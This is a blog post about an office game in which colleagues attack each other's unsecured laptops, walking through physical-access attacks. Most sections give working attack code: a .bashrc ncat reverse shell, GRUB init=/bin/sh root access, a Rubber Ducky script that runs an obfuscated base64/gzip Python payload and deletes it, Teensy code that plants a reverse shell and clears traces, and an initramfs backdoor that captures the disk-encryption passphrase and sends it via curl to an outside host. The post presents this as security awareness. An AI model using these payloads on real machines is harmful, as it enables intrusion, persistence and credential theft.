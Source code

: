 +++
title = "French Croissant - or why you need to lock your computer"
date = "2017-11-08"
description = ""
[extra]
cover.image = "images/cyber-croissant.png"
cover.alt = "French Croissant - or why you need to lock your computer"
+++

Last year the first day of my internship I was given a computer and asked to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

<!--more-->

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  ```plain
  To: team@company.com
  Subject: Croissant for all tomorrow
  ```

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  ```bash
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  ```

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - Root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

```bash
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
```

## USB : Rubber Ducky or Teensy
If you are willing to spend around 40$, you can buy a Rubber Ducky. This is a fake USB which will act as a keyboard and send any key to the plugged computer. The payload can be created within a notepad or online at https://ducktoolkit.com/.

The full documentation is available at [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

The following script was generated by DuckToolkit and serve a directory via HTTP
```bash
DEFAULT_DELAY 100
DELAY 3000
CTRL-ALT t
DELAY 200
STRING  printf '\e[3;1;1t'
ENTER
STRING  echo H4sIACBLCFoC/13OzwqDMAwG8HufIiDM9jAfYLD7joLei2hmC/1HGgXffh2dHpbTx0f4JdanSAwxC1tTPq7oN8c2UZwxZxtWIRZ8Qzq0YU5SPQSUibmbzWJJtq06i0Iwetmmg00McPcwFNHhaxz7AWlHAriVddEUUBskrDRtQU/OnfTf+a6vUfJEK/Lz94jqcilY1uvN16jipX0AB59ZiuMAAAA= | base64 --decode | gzip -d > environ-34314.py
ENTER
STRING  nohup python environ-34314.py > /dev/null 2>&1 &
ENTER
STRING  rm -rf environ-34314.py
ENTER
STRING exit
ENTER
```


Alternatively you can buy a Teensy board for 15$, it requires a little bit of configuration but it works as well
First, you need to install the arduino IDE, the Teensyduino and the rules for the Teensy board.
```bash
wget https://raw.githubusercontent.com/apmorton/teensy-template/master/tools/49-teensy.rules
mv 49-teensy.rules /etc/udev/rules.d/49-teensy.rules
wget https://www.pjrc.com/teensy/td_140/TeensyduinoInstall.linux64 && chmod +x ./TeensyduinoInstall.linux64 &&./TeensyduinoInstall.linux64
wget https://www.arduino.cc/download_handler.php
tar xvf arduino-1.8.5-linux64.tar.xz
```

The following code press the keys [ALT]+[F2], then write "xterm", followed by an echo into the user's .bashrc
```c
void setup() {

  delay(100);
  Keyboard.set_modifier(MODIFIERKEY_ALT);
  Keyboard.set_key1(KEY_F2);
  Keyboard.send_now();
  delay(100);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(100);

  Keyboard.println("xterm");
  delay(100);

  Keyboard.set_key1(KEY_ENTER);
  Keyboard.send_now();
  delay(100);

  // Reverse-shell stored in the bashrc
  Keyboard.println(" echo ' ncat 192.168.1.XX 4242 -e /bin/bash 2>/dev/null & clear' >> $HOME/.bashrc ");
  delay(100);

  // Now we clean our tracks
  Keyboard.println("exit");
  delay(100);
}

void loop() {
  delay(5000);
}
```
NOTE: When programming the board press the "RESET" button to avoid the launch of the payload on your computer

## Initramfs Backdoor - Encrypted Hard Drive
When you're booting there is one partition that is not encrypted in order to start. It will ask for your password and then decrypt and mount the other partition. If you have and access to the hard drive it is possible to replace the Initramfs.img in order to get the password to decrypt the full hdd, you can also wait for the decryption and then inject what you want inside a file as root :)

Mounting boot partition (not encrypted)
```bash
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
```

Extracting initramfs-linux
```bash
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
```


Adding the backdoor and packaging back to a .img
```bash
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
```
